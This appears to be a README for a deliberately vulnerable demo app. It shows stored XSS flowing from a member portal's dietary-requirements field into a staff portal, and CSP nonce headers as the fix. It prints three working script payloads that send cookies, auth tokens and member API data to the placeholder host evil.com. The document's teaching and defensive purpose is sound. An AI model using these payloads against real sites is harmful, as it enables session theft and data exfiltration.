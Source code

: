 ### Two-Stage Attack Flow

**Stage 1: Member Portal (`/`)**
- Clean member interface for submitting dining requests
- Malicious payload enters via "Dietary requirements" field
- No immediate execution - stored in database

**Stage 2: Ten Maid Portal (`/maid`)**
- Ten Maid lifestyle manager interface with pending member requests
- XSS executes when staff view the malicious request:
```javascript
${request.additional_details}  // Raw HTML injection point
```

### Attack Scenarios Demonstrated

**1. Cookie Theft:**
```javascript
<script>fetch('https://evil.com/steal?cookies='+document.cookie);</script>
```

**2. Session Hijacking:**
```javascript
<script>window.location='https://evil.com/admin?token='+localStorage.getItem('authToken');</script>
```

**3. Data Exfiltration:**
```javascript
<script>fetch('/api/members').then(r=>r.json()).then(d=>fetch('https://evil.com/data',{method:'POST',body:JSON.stringify(d)}));</script>
```

### CSP Nonce Protection  
The secure endpoint (`/secure`) implements:

1. **Nonce Generation**:
```javascript
const nonce = crypto.randomBytes(16).toString('base64');
```

2. **CSP Header**:
```javascript
res.setHeader('Content-Security-Policy', 
  `script-src 'nonce-${nonce}' 'strict-dynamic'; object-src 'none'; base-uri 'none';`
);
```

3. **Trusted Scripts**:
```html
<script nonce="${nonce}">
  // Only scripts with correct nonce execute
</script>
```

### Realistic Business Impact

